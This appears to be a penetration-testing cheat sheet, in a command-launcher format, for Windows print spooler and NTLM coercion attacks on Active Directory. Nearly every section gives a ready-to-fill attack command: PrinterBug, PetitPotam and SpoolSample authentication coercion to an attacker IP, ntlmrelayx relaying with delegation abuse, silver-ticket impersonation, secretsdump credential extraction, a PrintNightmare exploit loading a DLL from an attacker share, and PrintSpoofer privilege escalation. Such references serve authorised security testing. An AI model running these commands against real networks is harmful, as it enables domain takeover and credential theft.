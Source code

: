 # Printerbug and Petitpotam

% printerbug, petitpotam, Active directory

## Finding Spooler services listening
#platform/linux  #target/remote #cat/RECON 
```
rpcdump.py <domain>/<user>:'<password>'@<dc> | grep MS-RPRN
```

## Finding Spooler services anonymous
#platform/linux  #target/remote #cat/RECON 
```
rpcdump.py <dc> | grep -A 6 MS-RPRN
```

## dementor
#platform/linux  #target/remote #cat/ATTACK/EXPLOIT 
https://github.com/NotMedic/NetNTLMtoSilverTicket

```
dementor.py -d <domain> -u <user> -p <password> <attacker_ip> <dc2>
```

## printerbug
#platform/linux  #target/remote #cat/ATTACK/EXPLOIT 
https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py

```
printerbug.py '<domain>/<user>:<password>'@<ip> <attacker_ip>
```

## webclientservicescanner
#platform/linux  #target/remote #cat/RECON
https://github.com/Hackndo/WebclientServiceScanner
```
webclientservicescanner '<domain>/<user>:<password>'@<ip_range>
```

## PetitPotam
#platform/linux  #target/remote #cat/ATTACK/EXPLOIT
https://github.com/topotam/PetitPotam
```
PetitPotam.py -u <user> -p '<password>' -d <domain> <listener> <target>
```

## ntlmrelayx add computer
#platform/linux  #target/remote #cat/ATTACK/MITM 
```
ntlmrelayx -t ldaps://<dc1> -smb2support --remove-mic --add-computer <computer_name> <computer_password> --delegate-access
```

## use silver ticket
#platform/linux  #target/remote #cat/ATTACK/EXPLOIT 
```
getST.py -spn host/<dc2> -impersonate <user_to_impersonate> -dc-ip <dc1_ip> '<domain>/<computer_name>$:<computer_password>'
```

## secret dump with kerberos
#platform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump -k <dc>
```

## PrintNightmare
#platform/linux  #target/remote #cat/ATTACK/EXPLOIT
https://github.com/cube0x0/CVE-2021-1675

- windows server 2019
  container_info['DriverInfo']['Level2']['pDriverPath']  = "C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_83aa9aebf5dffc96\\Amd64\\UNIDRV.DLL\x00"
- windows server 2016          
  container_info['DriverInfo']['Level2']['pDriverPath']  = "C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_db4f0d0030e708f4\\Amd64\\UNIDRV.DLL\x00"

Need a real smb server (not work with the impacket server)

```
CVE-2021-1675.py <domain>/<user>:<password>@<target_ip> '\\<attacker_ip>\<share_name>\<dll_name|inject>.dll'
```

## Printspoofer privesc
#platform/windows  #target/local #cat/ATTACK/EXPLOIT

https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/PrintSpoofer.NET

```
PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss <launch_cmd>
```

## Spoolsample launch pipe
#platform/windows  #target/remote #cat/ATTACK/EXPLOIT
```
SpoolSample.exe <target_hostname> <target_hostname>/pipe/test
```

## Spoolsample
#platform/windows  #target/remote #cat/ATTACK/EXPLOIT

coherced authentitication 

```
SpoolSample.exe <target_server> <capture_server> 
```


= user : anonymous
= pass : anonymous
= computer_name : arsenal
= dc : DC01.domain.local
= dc1 : DC01.domain.local
= dc2 : DC02.domain.local
= computer_password : 123soleil
= ip_range : 192.168.1.0/24
